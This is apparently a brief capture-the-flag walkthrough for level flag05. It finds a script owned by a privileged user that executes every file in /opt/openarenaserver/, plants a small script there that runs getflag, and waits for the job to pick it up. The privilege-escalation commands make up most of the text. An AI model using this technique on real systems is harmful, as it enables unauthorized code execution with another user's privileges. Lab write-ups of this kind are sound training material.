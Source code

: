 # flag05

We find a process getting executed by `flag05`:
```bash
$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
```

It's a bash script that executes whatever it finds in `/opt/openarenaserver/*`.

We can just create a simple script to give us the flag:
```bash
echo "/bin/getflag > /run/shm/flag.txt" > /opt/openarenaserver/wow
chmod +x /opt/openarenaserver/wow
```

and we wait.

We are now given the flag 05 and can login as `level06`.
